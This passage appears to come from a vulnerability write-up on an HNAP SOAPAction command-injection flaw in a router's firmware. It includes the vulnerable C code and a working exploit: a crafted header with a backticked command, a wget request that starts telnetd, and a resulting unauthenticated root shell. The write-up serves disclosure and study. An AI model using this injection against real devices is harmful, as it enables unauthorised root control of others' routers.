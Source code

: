     /* Do a reverse search for the last forward slash in the SOAPAction header */
    SOAPAction = strrchr(SOAPAction, '/');
    if(SOAPAction != NULL)
    {
        /* Point the SOAPAction pointer one byte beyond the last forward slash */
        SOAPAction += 1;
     
        /* Get rid of any trailing double quotes */
        if(SOAPAction[strlen(SOAPAction)-1] == '"')
        {
            SOAPAction[strlen(SOAPAction)-1] = '\0';
        }
    }
    else
    {
        goto failure_condition;
    }
     
    /* Build the command using the specified SOAPAction string and execute it */
    sprintf(command, "sh %s%s.sh > /dev/console", "/var/run/", SOAPAction);
    system(command);

The two important take-aways from this are:

1.  There is no authentication check if the SOAPAction header _contains_ the string [http://purenetworks.com/HNAP1/GetDeviceSettings](http://purenetworks.com/HNAP1/GetDeviceSettings)
2.  The string passed to sprintf (and ultimately system) is everything _after_ the last forward slash in the SOAPAction header

Thus, we can easily format a SOAPAction header that both satisfies the “no auth” check, and allows us to pass an arbitrary string to system:

    SOAPAction: "http://purenetworks.com/HNAP1/GetDeviceSettings/`reboot`"

The [http://purenetworks.com/HNAP1/GetDeviceSettings](http://purenetworks.com/HNAP1/GetDeviceSettings) portion of the header satisfies the “no auth” check, while the \`reboot\` string ends up getting passed to system:

    system("sh /var/run/`reboot`.sh > /dev/console");

Replacing reboot with telnetd spawns a telnet server that provides an unauthenticated root shell:

    $ wget --header='SOAPAction: "http://purenetworks.com/HNAP1/GetDeviceSettings/`telnetd`"' http://192.168.0.1/HNAP1
    $ telnet 192.168.0.1
    Trying 192.168.0.1...
    Connected to 192.168.0.1.
    Escape character is '^]'.
     
     
    BusyBox v1.14.1 (2015-02-11 17:15:51 CST) built-in shell (msh)
    Enter 'help' for a list of built-in commands.
     
    #

If remote administration is enabled, HNAP requests are honored from the WAN, making remote exploitation possible. Of course, the router’s firewall will block any incoming telnet connections from the WAN; a simple solution is to kill off the HTTP server and spawn your telnet server on whatever port the HTTP server was bound to:
